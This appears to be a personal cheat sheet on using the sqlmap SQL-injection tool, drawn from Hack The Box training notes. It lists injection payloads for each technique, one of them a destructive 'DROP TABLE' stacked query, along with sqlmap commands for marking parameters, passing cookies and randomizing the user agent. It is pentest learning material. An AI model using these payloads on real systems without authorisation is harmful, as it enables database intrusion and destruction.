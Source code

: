 # [SQLmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- Run it via taskbar or with 'sqlmap' or `python sqlmap.py` in terminal
- advanced help is `-hh`
- The technique characters BEUSTQ refers to the following:
    - B: Boolean-based blind - most common (`AND 1=1`)
    - E: Error-based (`AND GTID_SUBSET(@@version,0)`)
    - U: Union query-based (`UNION ALL SELECT 1,@@version,3`)
    - S: Stacked queries (`; DROP TABLE users`)
    - T: Time-based blind (`AND 1=IF(2>1,SLEEP(5),0)`)
    - Q: Inline queries (`SELECT (SELECT @@version) from`)

 - SQLMap Output descriptions - `https://academy.hackthebox.com/module/58/section/696`
 - Best way to properly set up an SQLMap request against a specific target is to sue 'Copy as cURL'. By pasting the clipboard content into the command line, and changing the original command curl to sqlmap, we are able to use SQLMap with the identical curl command - `sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'`
 - Flags for automatic paramter finding - `--crawl, --forms or -g`
 - GET requests usually include -u / --url but POST requests usually contai nthe --data flag - `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`
 - POST parameters `uid` and `name` will be tested for SQLi vulnerability. For example, if we have a clear indication that the parameter uid is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using -p uid. Otherwise, we could mark it inside the provided data with the usage of special marker * as follows - `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`
 - Can run SQLMap with a HTTP request file using the `-r` flag. Similarly to the case with the '--data' option, within the saved request file, we can specify the parameter we want to inject in with an asterisk (*), such as '/?id=*'.
 - Specify the cookie with `--cookie` or `-H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`
 - To randomize the User-Agent header value use `--random-agent` or `--mobile` to imitate a phone
